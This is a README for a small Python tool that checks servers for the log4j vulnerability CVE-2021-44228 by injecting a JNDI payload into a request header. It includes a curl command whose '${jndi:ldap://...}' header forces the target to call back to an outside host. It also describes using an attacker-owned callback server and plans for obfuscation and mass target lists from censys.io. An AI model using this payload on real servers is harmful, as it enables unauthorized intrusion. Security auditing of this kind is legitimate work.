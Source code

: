 
# Little Log4Shellper

Simple tool I wrote on a pleasant Sunday afternoon.  

This tool leverages a log4j vulnerability, [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). The exploit involves injecting a malicious payload into a GET request header.  

While the original intent was to quickly audit multiple servers, the --payload option could be used to extend that functionality.   

E.g.

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://1270.0.0.1/o=refence}
```
### Usage
![Imgur](https://i.imgur.com/PlMudwa.png)


### Example
Spin up a test target. In this example I use a vulnerable docker image provided by [@breadchris](https://github.com/breadchris)
![Imgur](https://i.imgur.com/Syt6SvE.png)

Spin up or use an attacker owned host.  
In this example I use a free log4shell server hosted by Huntress.
This is but one approach.

![Imgur](https://i.imgur.com/1g9wevT.png)


Run logshellper.py
![Imgur](https://i.imgur.com/WCEPj4U.png)


Check results. If the target show up on the attacker's server, the target is exploitable.
[Imgur](https://i.imgur.com/txashNw.png)


### TODO
parse .csv file (i.e. exported form censys.io) to build targets.
add obfu option.

### Thanks
I'd like to thank the teams at Huntress.com, Lunasec.io
and everybody else who shared their research and efforts.

### References
https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java   
https://www.lunasec.io/docs/blog/log4j-zero-day/  
https://github.com/drahosj/log4shell-vulnerable-app
